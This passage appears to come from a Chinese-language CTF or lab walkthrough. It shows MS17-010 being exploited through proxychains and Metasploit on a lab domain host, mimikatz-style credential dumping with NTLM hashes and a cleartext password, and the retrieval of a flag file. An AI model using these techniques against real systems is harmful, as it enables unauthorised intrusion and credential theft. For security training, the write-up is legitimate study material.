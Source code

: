 ```shell
172.22.11.6 XIAORANG-DC DC
172.22.11.26 XR-LCM3AE8B
172.22.11.76 本机
172.22.11.45 MS17-010 XR-DESKTOP
```

proxychains + msf 打 ms17-010 (用 msf 自带的路由功能会打不了)

![image-20230816124612016](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308161246050.png)

mimikatz

```shell
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username     Domain    NTLM                              SHA1
--------     ------    ----                              ----
XR-DESKTOP$  XIAORANG  03e8d17f4da1797f6b69a9a7a23244c1  1d70088a085b3d3d5bafd48def14478a9bc0d8fb
yangmei      XIAORANG  25e42ef4cc0ab6a8ff9e3edbbda91841  6b2838f81b57faed5d860adaf9401b0edb269a6f

wdigest credentials
===================

Username     Domain    Password
--------     ------    --------
(null)       (null)    (null)
XR-DESKTOP$  XIAORANG  ...... (略)
                       91 ca 9f cc f8
yangmei      XIAORANG  xrihGHgoNZQ

kerberos credentials
====================

Username     Domain        Password
--------     ------        --------
(null)       (null)        (null)
xr-desktop$  XIAORANG.LAB  ...... (略)
xr-desktop$  XIAORANG.LAB  (null)
yangmei      XIAORANG.LAB  xrihGHgoNZQ

```

flag02

```shell
meterpreter > pwd
C:\Users\Administrator\flag
meterpreter > cat flag02.txt
                                                      ##
  :####:                                   :####      ##
 :######                                   #####      ##
 ##:  :#                                   ##
 ##        ##.###:    .####.    .####.   #######    ####     ##.####    :###:##
 ###:      #######:  .######.  .######.  #######    ####     #######   .#######
 :#####:   ###  ###  ###  ###  ###  ###    ##         ##     ###  :##  ###  ###
  .#####:  ##.  .##  ##.  .##  ##.  .##    ##         ##     ##    ##  ##.  .##
     :###  ##    ##  ##    ##  ##    ##    ##         ##     ##    ##  ##    ##
       ##  ##.  .##  ##.  .##  ##.  .##    ##         ##     ##    ##  ##.  .##
 #:.  :##  ###  ###  ###  ###  ###  ###    ##         ##     ##    ##  ###  ###
 #######:  #######:  .######.  .######.    ##      ########  ##    ##  .#######
 .#####:   ##.###:    .####.    .####.     ##      ########  ##    ##   :###:##
           ##                                                           #.  :##
```